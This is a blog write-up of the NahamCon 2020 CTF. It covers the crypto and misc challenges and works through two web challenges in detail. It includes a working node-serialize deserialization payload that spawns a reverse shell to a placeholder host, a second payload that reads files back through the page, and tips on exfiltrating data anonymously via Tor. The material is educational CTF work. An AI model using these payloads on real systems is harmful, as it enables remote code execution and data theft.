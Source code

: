 # NahamCon 

##### Jun 15, 2020

[NahamCon CTF](https://ctftime.org/event/1067) was a fun event last weekend.
I only had about 10 hours for it, so I did what tends to suit me best: crypto plus some misc challenges.
Overall I scored close to 1500, which is OK but there is always room to do more.

### Crypto

The crypto problems were largely a let-down, easy and/or of a guess-my-encryption type:

* **Docxor** was an attack on short-key-length xor with a guessable plaintext prefix (magic bytes)
* **Homecooked** was a custom scheme with super-slow decryption because of an inefficient primality test
* **Ooo-la-la** was a factorization attack on very-short-key RSA
* **Raspberry** was like RSA but with a modulus that was a product of many small primes (so another factorization attack)
* **December** was an attack on DES (you had to guess that one of the weak keys was used)
* **Twinning** was another short-key RSA factorization attack (once you realized that this always had p = q + 2, 
you could just solve for the primes)
* **Unvreakable Vase** was about reversing lower-cased base64 (e.g., you could check various capitalizations and see what they gave)
* I did not solve **Elsa4** during the contest - it was [LC4](https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html) encryption with a time-based random seed for the nonce
(you had to guess exactly how the seed was set)

### Misc

The misc problems did have some educational moments:

* **SSH Logger** was about stealing an SSH password as root via process monitoring (e.g., stracing children of sshd and snooping on strings read)
* **Glimpse** had a setuid-root Gimp 2.8 binary to exploit (you can actually run Python code with Gimp!)
* **Trapped** was about escaping`trap`in bash (by invoking trap again :o)
* in **Alkatraz** you had to read/print the flag file in restricted bash with no`cd`, no redirects, no / in executables, no history, readonly PATH and SHELLOPTS, and only`ls`in PATH (you could still load the file into history)
* **Awkward** was about exfiltrating the flag file using`awk`but there was no text output at all, you could only obtain exit codes (use getline, then leak the ascii code of the result character by character)
* **Fake File** was about finding a hidden flag file (`find . -exec grep ...` worked just fine)

### Some more poking around

Obviously, there is still much to learn. After the contest, I took a look at some of the web challenges:

* **Agent_95** was about faking a [Windows 95 user agent](https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident) header
* **Localghost** had data embedded in Javascript variables (probably lifted directly from another CTF because 
they had not adjusted the flag format :P)
* **Phphonebook** wanted you to guess the variable name to use in a POST request to trigger an emergency (it is *emergency*)
* in **Official Business** you had to exploit cookie verification in a buggy Python server 
(the server code was given away in robots.txt - this is only a CTF afterall :)
* **Seriously** was a Node JS [unserialization](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution) exploit, setting up an 
[immediately invoked function expression](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)
(the best trick I have learned from NahamCon challenges so far)

### Official Business

Hindsight is always 20/20, of course, but it can also give insight into the typical heuristics people use when
they race against time. Take, for example, **Official Business**: the job was to "log in as admin", and one could
get the [server code](/posts/NahamCon2020_Official_Business-server.py). The options looked like:

* matching the admin username and password

   ```python
user == "hacker"  
sha512(password) == b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
```

    ...but good luck with inverting SHA512.

* or, engineering (in hex form) a JSON cookie for which control makes it to the end of the function

   ```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")

    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")
            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

    so that it returns`True,...` The code checks for a cookie named *auth* that has a *digest* property,
which is then used in an integrity check on the cookie that involves the server's *secret_key*.
It may feel like "Game over" since that key is not known. However, *secret_key* turns out to be a Python string

   ```python
app.secret_key = open("secret_key", "r").read().strip()
```

    so concatenation with bytes inside the check throws an exception, and thus *any* digest passes!
(It would even be simpler not to have the cookie because then the whole if block is skipped;
however, in the index() function you need the *admin* property set to *True* to get the flag rendered.)

In the end, all that is required is a cookie`{"admin": True}`, which can be sent via a one-liner in curl. 
But it was likely [quicker](https://ctftime.org/writeup/21461) to get to the flag by simply trying 
a combination of whatever unique values appear in the code:

   ```python
{"user": "hacker", "password": "password", "digest": "hackshackshackshackshackshackshackshackshackshackshackshackshack", "admin": True}
```


### Seriously

My favorite problem at NahamCon is the Node JS unserialization exploit - **Seriously**. 
With a carefully crafted *cart* cookie in the challenge, the`server:port/cart` page that displayed the 
shopping cart could be used to execute arbitrary JS code on the server.
I have not heard about this vulnerability before,
so I decided to play with it.

Normally the cart cookie corresponded to something like
```js
{"items": {"0": {"name": "Haworthiopsis attenuata", "price": 19.99, "count": 1}}}
```
converted to string and then encoded via base64. 
But there were no integrity checks, so you could alter the cookie any way you wanted.
It so turns out that one can specify function-valued properties, and even so called 
[immediately invoked function expressions](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) (IIFEs) that are called right away
when the cookie is unserialized (i.e., converted back from string) by the server.


#### Reverse shell

One [writeup](https://github.com/empty-jack/ctf-writeups/blob/master/NahamCONCTF-2020/web-seriously.md) exploited this
to spawn a reverse shell, so I tried a variation on that too. You do not need eval(String.fromCharCode(...)) part, just define
your function expression directly and serialize that:

```js
var c = {"items": {"0": {"name": function() {
               var client = new require('net').Socket()
               client.connect("PORT", "HOSTIP", function() {
                  var sh = require('child_process').spawn('/bin/sh',[]);
                  client.write("Connected!\n");
                  client.pipe(sh.stdin);
                  sh.stdout.pipe(client);
                  sh.stderr.pipe(client);
                  sh.on('exit',function(code,signal){
                     client.end("Disconnected!\n");
                  });
               });
            }
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}"}}', '}()"}}')        // insert () to make it an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

A shell is nice because it gives a lot of freedom besides finding flag.txt and printing its contents.
For instance, you can tar-gzip the whole challenge directory and exfiltrate it (about 5 MB). 
There were no networking binaries (nc, curl, telnet...) on the server but it did have a C compiler, so you could easily do TCP over 
sockets. Or just cat the tarball and redirect netcat's output stream.  

Looking at the server code, the exploit activates at

```js
cart = serialize.unserialize(Buffer.from(cart, 'base64').toString('ascii'));
return res.render('cart', { cart: cart, user: user });
```

i.e., the shell spawns right before the assignment to *cart*, then the unserialized object is used to render the cart page.
(You did not even need to have the auth cookie for this to work.)


#### Exfiltrate to browser

A reverse shell is useful but it is definitely an overkill. Moreover, it is a giant beacon to the perpetrator's computer
on the internet. It is much more anonymous to exfiltrate the flag to the browser, which could be Tor 
(or you could even curl through Tor). 
We have arbitrary code execution, so it is easy - just have the IIFE return the flag as a string:

```js
var c = {"items": {"0": {"name": function() {
               return require('fs').readFileSync("flag.txt");
            },"price": 987,"count": 2
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}","price', '}()","price')   // make it into an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

This way, when the cart is rendered, the name of the plant is the flag.

Using analogous steps, you can exfiltrate any file (such as the challenge directory tarball) by preparing it, reading it, converting
it to base64, and putting the result in place of the plant name. There were no limits on HTTP response length, so getting a 10-MB
base64 string out worked just fine in the challenge.

---

[back](/)
